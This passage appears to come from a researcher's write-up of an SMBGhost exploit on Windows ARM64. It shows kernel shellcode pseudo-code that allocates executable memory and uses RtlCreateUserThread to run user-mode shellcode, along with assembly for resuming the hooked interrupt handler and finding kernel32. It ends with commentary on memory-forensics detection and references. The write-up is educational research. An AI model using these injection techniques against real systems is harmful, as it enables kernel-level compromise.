But guess what, Windows 10 kernel exports `RtlCreateUserThread()` which allows you to do exactly what is says it does. The parameters are exactly the same as its ntdll version, which would work as the below pseudo-code section. Although not covered in the latest blogpost by [@zerosum0x0](https://twitter.com/zerosum0x0), I invite you to read his latest blogpost about [known ring0 escapes](https://zerosum0x0.blogspot.com/2020/06/heresys-gate-kernel-zwntdll-scraping.html) as it gives a great historical context of the currently known techniques and why it is awesome that `RtlCreateUserThread` is exported and works fine :) AFAIK, I haven't seen any public Windows shellcode using that technique either.

```cpp
    m_CurrentIrql = KeGetCurrentIrql()
    m_KfLowerIrql(PASSIVE_LEVEL)
    m_KeStackAttachProcess((PVOID)m_EProcessObject, &m_KAPC);
    m_UserAddress = NULL;
    m_UserModePayloadSize = 0x1000;
    if (NT_SUCCESS(m_ZwAllocateVirtualMemory((HANDLE)-1, &m_UserAddress, 0, &m_UserModePayloadSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE))) {
        memcpy(m_UserAddress, UserModeShellcode, USERMODE_SHELLCODE_SIZE);
        m_RtlCreateUserThread((HANDLE)-1, NULL, FALSE, 0, NULL, NULL, m_UserAddress, 0, &m_hThread, &m_ClientId);
    }
    m_KeUnstackDetachProcess(&m_KAPC);
    m_KfRaiseIrql(KPCR->CurrentIrql)
```

Another thing that you will notice is that I directly call `hal!KfLowerIrql` and `hal!KfRaiseIrql`, instead of hardcoding IRQL changes like we usually see with x64 shellcodes - it was purely to play on the safe side to have a reliable shellcode and since we are working with `hal` anyway, it didn't make sense to hardcode it although `hal!KeGetCurrentIrql` is hardcoded as it is a straightforward function. `KeStackAttachProcess()` allows us to use ` (HANDLE)-1` instead of having to do extra operations stuff like `ZwOpenProcess()` to retrieve the handles etc.

Although commented, disabling/enabling interrupts is pretty straightforward but it was not required for the kernel payload to work properly.
```asm
    ;msr     DAIFClr, #2             ; enable interrupts
    (..) 
    ;msr     DAIFSet, #2             ; disable interrupts
```

### Let's go!
And after calling our homemade `POPAD` we can continue the execution of the original function.

```asm
    ; Continue the GIC Request Call
    ldr     x8, m_HalpGic3RequestInterrupt
    br      x8
    ret
```
## Userland
Thanks to our EL1/kernel call to `nt!RtlCreateUserThread` we are now running code in EL0.

Searching for functions works similarly to the kernel payload where I also use the `crc32b` opcode, the main difference is that instead of reading `KPCR` we will read the `TEB` to access to `PEB` and list the DLLs and find the kernel32 base address.

```asm
GetK32Base PROC
    mov    x8, x18
    ldr    x19, [x8, #OFFSET_PEB]
    ldr    x19, [x19, #OFFSET_LDR_DATA]
    ldr    x19, [x19, #OFFSET_LOAD_ORDER]
    ldr    x19, [x19] ; NTDLL
    ldr    x19, [x19] ; KERNEL32
    ldr    x0, [x19, #OFFSET_DLL_BASE] ; Kernel32 Base
    ret
GetK32Base ENDP
```

Other than this, everything works similarly to our kernel payload - the shadow stack, searching for function, making calls.. And boom, the target machine didn't explode and a `calc` application just popped up. I didn't publish a reverse shell shellcode as the goal is to make this exploit and write-up purely educational.

# Memory Analysis for Detection.
Memory forensics is dead. Long live memory analysis. What about detection? Real time detection isn't always perfect, and mitigation implementations are efficient but long term process. Nonetheless, RAM-persistent kernel implants are not always trivial to detect and often new techniques keep being created. This is one of the main reasons I've been pushing for [rethinking logging for critical assets](https://www.comae.com/posts/2018-02-20_rethinking-logging-for-critical-assets/) to be able to detect such payloads in memory if you archive memory images (in a usable file format such as crash dumps for Windows, or ELF core for Linux - Remember: raw dumps are dumb dumps and only work for your Windows 7 week-end workshops :)) and enable the option to run advanced detection playbooks later on, which is what we enable with [Comae Stardust](https://www.comae.com/platform/).

Investigating non-KASLR addresses such as KPCR in Windows 7 (cf. [ETERNALBLUE](https://twitter.com/msuiche/status/856108023521193985/photo/1)), `KSHARED_USER_DATA` or even pages with KASLR enabled but no NX protection such as kernel module headers like we saw above, is a necessity and as incident response framework and tools are lagging behind by focusing too much on basic things like converting IT tools into DFIR utilities such as `osquery` etc, it will be hard to see significant evolution from a defense perspective. For instance, I've definitely had more fun writing this exploit than trying to convince people why they should stop using raw dumps and use Microsoft crash dumps :). A lot of in-depth defense mechanisms are pretty hard to implement if you aren't a vendor - although, Cloud providers may introduce an interesting paradigm for the future of Cloud security where small players can have an ever-growing impact.

# References
- https://ricercasecurity.blogspot.com/2020/04/ill-ask-your-body-smbghost-pre-auth-rce.html
- https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-chaining-smbleed-cve-2020-1206-with-smbghost/
- https://github.com/chompie1337/SMBGhost_RCE_PoC
- https://thinkingeek.com/2017/05/29/exploring-aarch64-assembler-chapter-8/
- http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.dui0801a/BABBDBAD.html
- https://developer.arm.com/docs/den0024/a/the-memory-management-unit/translating-a-virtual-address-to-a-physical-address
- https://static.docs.arm.com/100940/0100/armv8_a_address%20translation_100940_0100_en.pdf
- https://developer.arm.com/docs/ddi0595/d/aarch64-system-registers/ttbr0_el1
- https://developer.arm.com/docs/den0024/a/the-memory-management-unit/separation-of-kernel-and-application-virtual-address-spaces
- https://static.docs.arm.com/ihi0069/c/IHI0069C_gic_architecture_specification.pdf
- http://bos.itdks.com/855dbb545f004e9da1c603f3bcc0a917.pdf
- https://gracefulbits.com/2018/07/26/system-call-dispatching-for-windows-on-arm64/
- https://docs.microsoft.com/en-us/cpp/build/arm64-windows-abi-conventions?view=vs-2019
- https://wbenny.github.io/2018/10/16/kdnet-over-usb.html
- https://zerosum0x0.blogspot.com/2020/06/heresys-gate-kernel-zwntdll-scraping.htm
- https://www.comae.com/posts/2019-04-24_how-to-solve-the-blindspots-of-event-driven-detection/
- http://rce4fun.blogspot.com/2019/04/circumventing-windows-defender-atps.html
